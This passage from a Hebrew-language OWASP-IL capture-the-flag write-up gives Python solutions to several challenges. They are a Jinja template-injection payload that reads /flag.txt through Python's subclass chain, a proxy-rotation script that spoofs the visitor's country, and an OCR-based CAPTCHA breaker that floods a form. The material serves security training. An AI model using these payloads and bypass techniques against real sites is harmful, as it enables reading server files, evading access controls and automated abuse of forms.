"""["srv", "tmp", "sbin", "bin", "var", "root", "run", "sys", "etc", "opt", "mnt", "boot", "lib", "dev", "media", "proc", "usr", "home", "lib64", ".dockerenv", "flag.txt", "app"]"""
 
req = "{{"
req += "''"
req += ".__class__.mro()[2]"
req += ".__subclasses__()[59]()"
req += "._module"
req += ".__builtins__['open']('/flag.txt')"
req += ".read()"
req += "}}"
 
r = requests.get("http://challenges.owaspil.ctf.today:8087/get_recommendation?name=a&recommender=" + req)
print (r.text)
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדגל:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{IAmL00kingF0rT3mpl4tes}</span></b></p>
<b><span lang=HE dir=RTL style='font-size:11.0pt;line-height:107%;font-family:
"Arial",sans-serif'><br clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=HE dir=RTL style='font-family:"Arial",sans-serif'>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 12 - </span><span
lang=EN-US dir=LTR>Around the world – REAL</span><span dir=RTL></span><span
lang=HE style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת
קושי בינונית, 500 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>Hi you! Do you think that you traveled the world? Your
mission is to enter to our site with IP that belongs to country that we request
you</span></p>
<p><span lang=en-IL>Can you do that ? use with REAL IP :)</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8095/">http://challenges.owaspil.ctf.today:8095/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כמו קודם, כניסה
לאתר מציגה טקסט בתבנית הבאה:</span></p>
<p class=MsoNormal><span lang=en-IL>In order to get the flag you must to serve
from Brazil (You served from Israel)| Counter: 0/16</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>המימוש מאוד דומה
לתרגיל המקורי:</span></p>

```python
import requests, re
 
ip_table = {}
with open("proxy.txt") as f:
    for line in f:
        line = line.rstrip()
        ip, country = line.split("\t")
        if country.lower() not in ip_table:
            ip_table[country.lower()] = []
        ip_table[country.lower()].append(ip)
 
s = requests.Session()
country_regex = re.compile("In order to get the flag you must to serve from ([^(]+) \(")
proxies = None
text = ""
 
def get_page(proxies):
    r = s.get('http://challenges.owaspil.ctf.today:8095/', proxies=proxies)
    print (r.text)
    return r.text
 
text = get_page(None)
while "OWASP" not in text:
    match = country_regex.search(text)
    if match:
        country = match.group(1).lower()
        for ip in ip_table[country]:
            proxies = {'http': ip}
            print (proxies)
            try:
                text = get_page(proxies)
                if "you must to serve from {}".format(country) not in text.lower():
                    break
            except:
                pass
        else:
            print ("No IP was successful for {}".format(country))
            break
    else:
        print ("No match for '{}'".format(text))
        break
print (text)
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ההבדלים העיקריים
הם:</span></p>
<p class=MsoListParagraphCxSpFirst dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=en-IL style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>במקום
להשתמש ב-</span><span lang=en-IL dir=LTR>XFF</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>, אנחנו
משתמשים בפרמטר של ספריית </span><span class=MsoHyperlink><span lang=EN-US><a
href="http://docs.python-requests.org/en/master/"><span dir=LTR>requests</span></a></span></span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> שמאפשר להתחבר לכתובת מסויימת באמצעות פרוקסי</span></p>
<p class=MsoListParagraphCxSpLast dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=en-IL style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>עלינו
לנסות מספר כתובות </span><span lang=en-IL dir=LTR>IP</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> עד שהחיבור
יצליח, מכיוון ששרתי פרוקסי חינמיים לא תמיד זמינים</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדגל:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=en-IL dir=LTR>OWASP-IL{W0rld_T0r_0ops_S0rry_T0ur!}</span></b></p>
<b><span lang=HE dir=RTL style='font-size:11.0pt;line-height:107%;font-family:
"Arial",sans-serif'><br clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=HE dir=RTL style='font-family:"Arial",sans-serif'>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 13 - </span><span
lang=en-IL dir=LTR>Break The Captcha – Nightmare</span><span dir=RTL></span><span
lang=HE style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת
קושי קשה, 700 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>Following the last attack on my website i increased the
difficulty of my human security.<br>
Do you think that you can bypass it with code and flood my form?</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="http://challenges.owaspil.ctf.today:8085/">http://challenges.owaspil.ctf.today:8085/</a></b></span></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתגר החדש נראה כך:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אז מה התחדש?</span></p>
<p class=MsoListParagraphCxSpFirst dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=en-IL style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>נוסף
תרגיל מתמטי אשר מופיע כטקסט (קל לפתור אותו)</span></p>
<p class=MsoListParagraphCxSpLast dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=en-IL style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>התמונה
כוללת רעש אקראי (מקשה על ה-</span><span lang=en-IL dir=LTR>OCR</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>)</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>נתמקד בינתיים בתמונה,
מכיוון שהפתרון הנדרש עבור הטקסט הוא קל ביותר.</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מהתבוננות בתמונה
הזו (ובמדגם מייצג של תמונות נוספות), אפשר לשים לב למאפיינים הבאים:</span></p>
<p class=MsoListParagraphCxSpFirst dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>הטקסט
הוא תמיד לבן</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>הרקע
הוא תמיד צבעוני, וכן ה&quot;נקודות&quot; ברקע</span></p>
<p class=MsoListParagraphCxSpLast dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span dir=RTL></span><span lang=EN-US
style='font-family:Symbol'>·<span style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>&quot;רעש&quot;
נוסף הוא הקווים שלעיתים חוצים את הטקסט במקומות אקראיים, והוא תמיד שחור</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ה-</span><span
lang=EN-US dir=LTR>OCR</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> מעדיף טקסט שחור על
רקע לבן, ונראה שלא מאוד קשה לייצר תמונה כזו מהתמונה המקורית:</span></p>
<p class=MsoListParagraphCxSpFirst dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US>1.<span style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>עוברים
על התמונה, פיסקל אחרי פיקסל</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US>2.<span style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>פיסקל
לבן הופכים לשחור</span></p>
<p class=MsoListParagraphCxSpLast dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US>3.<span style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>פיסקל
שאינו לבן הופכים ללבן</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הנה תוצר של
האלגוריתם הזה:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הבעיה היא שהקווים
השחורים מאוד מקשים על ה-</span><span lang=EN-US dir=LTR>OCR</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> (את הדוגמא לעיל הוא זיהה בתור </span><span lang=en-IL dir=LTR>uk/za</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>). גם באתגר המקורי היו טעויות בזיהוי, אבל האחוז פה הוא גבוה
משמעותית.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כנראה שהפתרון הנכון
ביותר במצב הזה היה &quot;לאמן&quot; את ה-</span><span lang=EN-US dir=LTR>OCR</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> עם הגופן שמשתמשים בו בתמונה. כלומר, לתת ל-</span><span
lang=EN-US dir=LTR>OCR</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> מספיק דגימות של
התווים השונים המשמשים לבניית התמונה, כאשר עבור כל תו אנחנו מספרים ל-</span><span
lang=EN-US dir=LTR>OCR</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> איזה תו זה, ובאופן
זה הוא &quot;לומד&quot; כיצד התו נראה. &quot;אימון&quot; כזה משפר מאוד את
היכולת של </span><span lang=EN-US dir=LTR>OCR</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>-ים לזהות
טקסט.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>במקום זה, בחרתי
לקחת קיצור דרך בהתבסס על המאפיינים המיוחדים של התרגיל הזה.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>צפייה במספר תמונות
במקביל נראית כך:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>שימו לב שהטקסט תמיד
תופס את אותו המקום בתמונה. לכן, בשלב הראשון (לפני עיבוד נוסף) אפשר &quot;לחתוך&quot;
אותו </span><span dir=LTR></span><span lang=EN-US dir=LTR><span dir=LTR></span>(crop)</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> ולהתעלם מכל החלק הימני. לאחר מכן, הפעלתי את האלגוריתם שפירטנו לעיל
על מנת ליצור טקסט לבן על רקע שחור.</span></p>
<p class=MsoNormal dir=RTL style='margin-bottom:0cm;margin-bottom:.0001pt;
text-align:right;direction:rtl;unicode-bidi:embed'><span lang=HE
style='font-family:"Arial",sans-serif'>הקוד עצמו נראה כך:</span></p>

```python
def get_image_bounding_box(img):
    w, h = img.size
    return (3, 6, w - 28, h - 2)
   
def filter_image(in_file):
    img = PIL.Image.open(in_file)
    img = img.crop(get_image_bounding_box(img))
 
    m = img.load()
    new_w, new_h = img.size
 
    num_black_pixels = 0
    for x in xrange(new_w):
        for y in xrange(new_h):
            r,g,b = m[x,y]
            if (r, g, b) == WHITE:
                m[x,y] = BLACK
            else:
                if (r, g, b) == BLACK:
                    num_black_pixels += 1
                m[x,y] = WHITE
 
    return (img, num_black_pixels)
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>שימו לב שבנוסף
ללוגיקה שפורטה קודם, הקוד סופר פיקסלים שחורים (מקוריים, לפני השינוי) בתמונה
החתוכה. דבר זה בעצם משמש עבור קיצור הדרך שהזכרתי – במידה ומספר הפיקסלים השחורים
גדול יותר מקבוע שהוגדר מראש, הקוד מוותר על השימוש ב-</span><span lang=EN-US
dir=LTR>OCR</span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> וממשיך אל התמונה הבאה. זאת, מכיוון שהקריאה לפונקציית ה-</span><span
lang=EN-US dir=LTR>OCR</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> היא היקרה ביותר
מבחינת זמן, ואילו אחוז ההצלחה כאשר ישנם קווים חותכים על גבי הטקסט הוא נמוך
מאוד. כלומר, אלו מקרים ש&quot;לא משתלמים&quot;. ישנו סיכוי גדול יותר שבניסיון
הבא, הקווים השחורים יופיעו במקום פחות חשוב, ואז יהיה משתלם לבצע את הקריאה ל-</span><span
lang=EN-US dir=LTR>OCR</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>.</span></p>
<div align=right>
<table class=MsoTableGrid dir=rtl border=0 cellspacing=0 cellpadding=0  width="100%"
 style='border-collapse:collapse;border:none;width:100%;'>
 <tr>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal dir=RTL style='margin-bottom:0cm;margin-bottom:.0001pt;
  text-align:right;line-height:normal;direction:rtl;unicode-bidi:embed'><span
  lang=HE style='font-family:"Arial",sans-serif'>דוגמא למקרה שאינו משתלם:</span></p>
  <p class=MsoNormal dir=RTL  align=center style='margin-bottom:0cm;margin-bottom:.0001pt;
  text-align:center;line-height:normal;direction:rtl;unicode-bidi:embed'><span
  lang=EN-US dir=LTR></span></p>
  <p class=MsoNormal dir=RTL style='margin-bottom:0cm;margin-bottom:.0001pt;
  text-align:right;line-height:normal;direction:rtl;unicode-bidi:embed'><span
  lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
  </td>
  <td width=301 valign=top style='width:225.4pt;border:solid windowtext 1.0pt;
  border-right:none;padding:0cm 5.4pt 0cm 5.4pt'>
  <p class=MsoNormal dir=RTL style='margin-bottom:0cm;margin-bottom:.0001pt;
  text-align:right;line-height:normal;direction:rtl;unicode-bidi:embed'><span
  lang=HE style='font-family:"Arial",sans-serif'>דוגמא למקרה משתלם:</span></p>
  <p class=MsoNormal dir=RTL  align=center style='margin-bottom:0cm;margin-bottom:.0001pt;
  text-align:center;line-height:normal;direction:rtl;unicode-bidi:embed'><span
  lang=EN-US dir=LTR></span></p>
  </td>
 </tr>
</table>
</div>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אם ביצענו את קיצור
הדרך הזה, נצטרך לבצע הרבה יותר קריאות כדי &quot;לחפות&quot; על המקרים שאינם
משתלמים (לכן קצת קשה לקרוא לו &quot;אופטימיזציה&quot;).</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הקוד של הפונקציה
העיקרית במקרה הזה הוא:</span></p>

```python
with requests.Session() as s:
    with open(DEBUG_FILENAME, "w") as debug_file:
        for i in range(NUM_ATTEMPTS):
            print ("-" * 15)
            print (i)
            if DEBUG:
                debug_file.write("<hr/><br/><h2>{}</h2>\n".format(i))
            response = s.get(URL + "captcha.php", stream=True)
 
            img_to_filter = response.raw
            if DEBUG:
                temp = io.BytesIO(img_to_filter.read())
                debug_file.write("<br/>\n"
                                .format(base64.b64encode(temp.read()), DEBUG_IMG_SIZE))
                temp.seek(0)
                img_to_filter = temp
            raw_after_filter, black_pixels = filter_image(img_to_filter)
            if black_pixels > BLACK_PIXEL_LIMIT:
                continue
            if DEBUG:
                with io.BytesIO() as output:
                    raw_after_filter.save(output, format="PNG")
                    debug_file.write("<br/>\n"
                                 .format(base64.b64encode(output.getvalue()), DEBUG_IMG_SIZE))
            del response
 
            guess = get_guess(raw_after_filter)
            print (guess)
           
            if DEBUG:
                debug_file.write(guess.encode("utf-8") + "\n")
 
            math_answer = get_math_captcha_answer()
            payload = {'captcha': guess, "math_captcha": math_answer, "submit": ""}
            response = s.post(URL, data=payload)
            if "flag" in response.text or "OWASP" in response.text:
                print (response.text)
                break
                     
            solved_captchas_match = solved_regex.search(response.text)
            if solved_captchas_match:
                print ("Solved: {}".format(solved_captchas_match.group(1)))
```

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=HE dir=RTL style='font-size:9.0pt;line-height:107%;font-family:"Courier New"'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>בגדול, הוא עושה
בדיוק מה שאמרנו:</span></p>
<p class=MsoListParagraphCxSpFirst dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>מבצע
מספר ניסיונות (</span><span lang=EN-US dir=LTR style='font-size:9.0pt;
line-height:107%;font-family:"Courier New"'>NUM_ATTEMPTS</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>), כאשר בכל
ניסיון, הוא:</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
72.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:"Courier New"'>o<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>קורא
את התמונה</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
72.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:"Courier New"'>o<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>מנקה
את התמונה ובודק את מספר הפיקסלים השחורים (</span><span lang=EN-US dir=LTR
style='font-size:8.0pt;line-height:107%;font-family:"Courier New"'>filter_image</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>)</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
72.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:"Courier New"'>o<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>מוותר
על הניסיון אם המספר גבוה מדי</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
72.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:"Courier New"'>o<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>פותר
את המשוואה המתמטית (</span><span lang=EN-US dir=LTR style='font-size:8.0pt;
line-height:107%;font-family:"Courier New"'>get_math_captcha_answer</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>)</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
72.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:"Courier New"'>o<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>מגיש
את הפתרון</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
72.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:"Courier New"'>o<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>מדפיס
את מספר ההצלחות</span></p>
<p class=MsoListParagraphCxSpLast dir=RTL style='margin-top:0cm;margin-right:
72.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span dir=RTL></span><span lang=EN-US
style='font-family:"Courier New"'>o<span style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>(במידה ודגל </span><span
lang=EN-US dir=LTR>DEBUG</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> דלוק, הוא מטמיע בקובץ
</span><span lang=EN-US dir=LTR>HTML</span><span dir=RTL></span><span
lang=EN-US style='font-family:"Arial",sans-serif'><span dir=RTL></span> </span><span
lang=HE style='font-family:"Arial",sans-serif'>את התמונה המקורית, את התמונה
הנקייה ואת הניחוש, כך שבסוף הריצה אפשר לעבור על כל הנסיונות בקלות)</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לשם השלמות, נצרף גם
את פונקציות-העזר שהזכרנו.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הפונקציה לקבלת
הניחוש:</span></p>

```python
def get_guess(img):
    guess = pytesseract.image_to_string(img, config=r'--psm 8').encode("utf-8")
    guess = guess.translate(SIMILAR_LETTERS_TRANS)
    guess = guess.translate(None, '?.,_ |')
    return guess
```

<p class=MsoNormal><span lang=EN-US>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
